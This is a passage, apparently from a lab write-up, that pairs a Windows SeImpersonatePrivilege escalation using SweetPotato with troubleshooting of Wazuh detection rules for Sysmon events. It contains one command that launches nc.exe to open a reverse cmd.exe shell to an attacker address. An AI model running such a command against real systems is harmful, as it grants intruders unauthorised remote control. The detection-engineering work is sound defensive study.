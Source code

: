 ##### SeImpersonatePrivilege
The `defaultapppool` account also has the SeImpersonatePrivilege enabled upon checking `whoami /priv`. Among the multiple impersonation/potato exploits I tend to use [SweetPotato](https://github.com/CCob/SweetPotato).

```
.\SweetPotato.exe -e EfsRpc -p .\nc.exe - a "10.10.14.16 4444 -e cmd.exe"
```

Wazuh also had a prebuilt rule for detecting PowerShell file creation. These are certiainly good starting points and should raise alarms in combination with other surrounding activity.

![image](https://i.postimg.cc/0ytwx9Vm/remote-sweetpotato.png){: width:'930' height:'78'}

### Wazuh Rule Troubleshooting
Having never used Wazuh prior to this instance I thought it was fairly intuitive to install and get setup based on what I used it for. The first rule I setup ran smoothly with no troubleshooting needed. I originally modeled the TeamViewer `reg.exe` rule off of the first one and figured I'd similarly have no issues using the same `if_sid` value of 61603 for the Sysmon process create event. After triple checking for typos, ensuring the service was running on the client and server, seeing that other Sysmon logs were being forwarded, etc. the rule would not trigger!

After some Googling I came across this Wazuh [Monitoring Sysmon](https://github.com/wazuh/wazuh/issues/4253#issuecomment-555974826) post that was helpful. Key things that it mentioned that I had not yet tried were creating this rule which should trigger for all Sysmon events:

```
<group name="windows,sysmon">
  <rule id="190003" level="3">
    <if_group>sysmon</if_group>
    <description>Windows Sysmon event. Event ID: $(win.system.eventID)</description>
    <options>no_full_log</options>
  </rule>
 </group>
 ```

 This rule did work as intended however, the goal was to get a specific rule to trigger, not to have events fire for every Sysmon event. The other mention from the above post was setting `logall` in the Wazuh manager/server's `/var/ossec/etc/ossec.conf` file to "yes". This let me verify I could see logs in the manager's archive file even if the rule was not triggering.

 The Wazuh console under "Server management" has a Ruleset Test option which seemed to be exactly what I was looking for. I copied the full json log seen from the manger's `archives.log` file and the test went through Phase 1 and 2 but nothing for Phase 3, which was what I needed to identify what rule was being matched. Searching around again I came across another post about [No Phase 3](https://groups.google.com/g/wazuh/c/UWL-BZI5c64) that cleared up why I was not seeing the Phase 3 process when testing my rule.
 
 It seems there's a known issue with certain Windows logs due to the decoders used for those events. Changing `/var/ossec/ruleset/rules/0575-win-base_rules.xml`'s rule 60000 from `windows_eventchannel` to `json` and removing `<category>ossec</category>` would allow the Ruleset Test feature to work (afterwards this needs to be set back to its [original values](https://github.com/wazuh/wazuh/blob/main/ruleset/rules/0575-win-base_rules.xml#L15)). This showed that a prebuilt Wazuh rule 92025 was triggering first for general `reg.exe` Sysmon process creation events. Changing the `if_sid` value to 92025 fixed the rule. I could have also looked for what rules may have triggered related to `reg.exe` by searching in the manager's rules, for example:
